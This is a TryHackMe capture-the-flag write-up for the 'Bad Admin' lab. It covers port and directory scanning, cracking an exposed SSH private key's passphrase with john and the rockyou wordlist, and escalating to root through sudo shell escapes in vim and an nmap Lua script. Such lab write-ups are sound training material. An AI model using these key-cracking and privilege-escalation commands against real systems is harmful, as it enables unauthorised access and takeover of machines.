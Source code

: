 # Official TryHackMe Bad Admin WriteUp

First -- scan machine with nmap:

```bash
nmap -p- -A <MACHINE_IP>
```
![nmap](images/nmap.png)

Go on site in your browser

![apache](images/apache2.png)

Scan directories on this site

```
gobuster dir -u <MACHINE_IP> -w /usr/share/wordlists/dirb/big.txt
```

![gobuster](images/gobuster.png)

Go to secter

![rsa](images/rsa.png)

Name of file -- login to ssh, secret -- key to login ssh

Brute password for id_rsa

```bash
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```

![key](images/key.png)

Login ssh 

![login](images/login.png)

Cat user.txt

![user](images/user.png)

Decode user.txt

![decode](images/decode.png)

Check sudo 

![sudo](images/sudo.png)

Use nmap or vim for PrivEsc. [GTFObins](https://gtfobins.github.io/)

```bash
vim
:!/bin/bash
```

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Cat root.txt

![root](images/root.png)
